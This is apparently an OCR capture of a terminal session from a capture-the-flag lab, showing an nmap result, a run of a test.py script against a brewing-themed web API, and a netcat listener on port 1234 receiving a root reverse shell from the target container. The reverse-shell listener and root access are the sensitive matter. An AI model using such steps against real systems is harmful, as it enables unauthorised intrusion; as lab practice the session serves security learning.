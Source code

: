 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 14.07 seconds  
root@kali:~# vim /etc/hosts  
root@kali:~# vim test.py

root@kali:~# python test.py  
/usr/local/lib/python2.7/dist-packages/requests/packages/urllib3/connectionpool.py:789: InsecureRequestWarning: Unverified HTTPS request is being made. Adding certificate verification is strongly advised. See: h  
ttps://urllib3.readthedocs.org/en/latest/security.html  
InsecureRequestWarning)  
/usr/local/lib/python2.7/dist-packages/requests/packages/urllib3/connectionpool.py:789: InsecureRequestWarning: Unverified HTTPS request is being made. Adding certificate verification is strongly advised. See: h  
ttps://urllib3.readthedocs.org/en/latest/security.html  
InsecureRequestWarning)  
{"message":"Token is valid!"}

Create bogus ABV brew  
/usr/local/lib/python2.7/dist-packages/requests/packages/urllib3/connectionpool.py:789: InsecureRequestWarning: Unverified HTTPS request is being made. Adding certificate verification is strongly advised. See: h  
ttps://urllib3.readthedocs.org/en/latest/security.html  
InsecureRequestWarning)  
<html>  
<head><title>504 Gateway Time-out</title></head>  
<body>  
<center><h1>504 Gateway Time-out</h1></center>  
<hr><center>nginx/1.15.8</center>  
</body>  
</html>

root@kali:~# ifconfig tun0 [161/161]  
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500  
inet 10.10.14.90 netmask 255.255.254.0 destination 10.10.14.90  
inet6 dead:beef:2::1058 prefixlen 64 scopeid 0x0<global>  
inet6 fe80::c7d0:a309:9c9:4cf prefixlen 64 scopeid 0x20<link>  
unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00 txqueuelen 100 (UNSPEC)  
RX packets 8007 bytes 6854024 (6.5 MiB)  
RX errors 0 dropped 0 overruns 0 frame 0  
TX packets 6960 bytes 467284 (456.3 KiB)  
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

root@kali:~# nc -lnvp 1234  
listening on [any] 1234 ...  
connect to [10.10.14.90] from (UNKNOWN) [10.10.10.110] 34871  
/bin/sh: can't access tty; job control turned off  
/opt/app # whoami  
root  
/opt/app # ls -alh /  
total 64  
drwxr-xr-x 1 root root 4.0K Feb 10 2019 .  
drwxr-xr-x 1 root root 4.0K Feb 10 2019 ..  
-rwxr-xr-x 1 root root 0 Feb 10 2019 .dockerenv  
drwxr-xr-x 1 root root 4.0K Feb 6 2019 bin  
drwxr-xr-x 5 root root 340 Jan 6 13:39 dev  
drwxr-xr-x 1 root root 4.0K Feb 10 2019 etc  
drwxr-xr-x 2 root root 4.0K Jan 30 2019 home  
drwxr-xr-x 1 root root 4.0K Feb 6 2019 lib  
drwxr-xr-x 5 root root 4.0K Jan 30 2019 media  
drwxr-xr-x 2 root root 4.0K Jan 30 2019 mnt  
drwxr-xr-x 1 root root 4.0K Feb 9 2019 opt  
dr-xr-xr-x 254 root root 0 Jan 6 13:39 proc  
drwx------ 1 root root 4.0K Jan 6 17:03 root  
drwxr-xr-x 2 root root 4.0K Jan 30 2019 run  